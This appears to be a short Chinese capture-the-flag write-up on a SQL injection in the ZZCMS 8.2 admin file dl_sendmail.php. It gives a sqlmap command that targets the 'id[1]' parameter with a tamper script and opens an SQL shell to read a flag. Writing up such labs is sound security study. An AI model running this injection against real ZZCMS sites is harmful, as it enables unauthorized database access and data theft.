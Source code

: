 ## 1. 漏洞介绍
[ZZCMS2021 sqlinject(4) · GitHub](https://gist.github.com/aaaahuia/1fd31c1ebcddfe4c95268fa4f31fc312)

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.2中在admin/dl_sendmail.php存在sql注入漏洞
## 2. 漏洞复现
burp suite抓包跑sqlmap

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310091432121.png)

```shell
python  sqlmap.py -r post.txt -p "id[1]" --tamper="between.py"  --batch  --sql-shell
select flag from flag
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310091434381.png)
